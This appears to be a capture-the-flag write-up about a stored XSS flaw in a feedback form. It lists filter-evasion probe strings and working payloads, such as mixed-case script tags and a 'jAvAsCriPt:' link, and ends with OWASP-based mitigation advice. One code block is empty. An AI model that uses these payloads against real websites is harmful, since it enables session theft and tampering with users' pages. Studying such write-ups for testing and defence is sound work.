


# Exploit

On the feedback page, we see that we can fill two inputs (name and message), which are then displayed on the page.  
To bypass the limitation on input length, we can either change the maxlength attribute in the `<input>` tab, or change parameters via the proxy.

Straightforward attempts to inject a script are unsuccessful due to filters: `<script>` tags or "javascript" mentions are detected and removed, quotes are escaped...

Then, take inspiration from [this OWASP cheat sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet), [this blog post](https://www.netsparker.com/blog/web-security/xss-filter-evasion/) and [this article](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)

Some examples...

```
PHNjcmlwdD5hbGVydCgxKTs8L3Njcm
data:text/htmlPHNjcmlwdD5hbGVy
1 AND 1=1
1 AND 1=2
1;url=http://www.test.com
 alert(1);
 javascript:alert(1)
 \"test
 alert("name")
 %22%3E%3Cscript%3Ealert(lala)%
 aaa@aa.com\">alert(doc
 /((\\\\=)|(=))\\[^\\\\n\\]\\*(
     ¼script¾alert(¢XSS¢)¼/scr
\"data:text/html base64,P
```

There is definitely a stored XSS vulnerability, since any of those three values in the name field (that has fewer filters than the message field) will trigger a pop-up box.  
Successful attempts:

```
<a href="jAvAsCriPt:alert('helloo')">Click this link!</a>
```



```
 
```

```
<ScRipT>alert(1)</sCriPt>
```



Although I consider this is a demonstrated exploit, the flag is not released following these attempts.
Testing further, it turns out that it can be triggered by simply writing "alert" in one of the fields.

# Mitigating the risk

Be rigorous and encode ALL untrusted data!  
Use HTTPS and don't use a javascript URL (that can execute Javascript code when use in URL DOM locations such as href attribute).  
Also, f:ollow the [OWASP XSS Prevention cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).
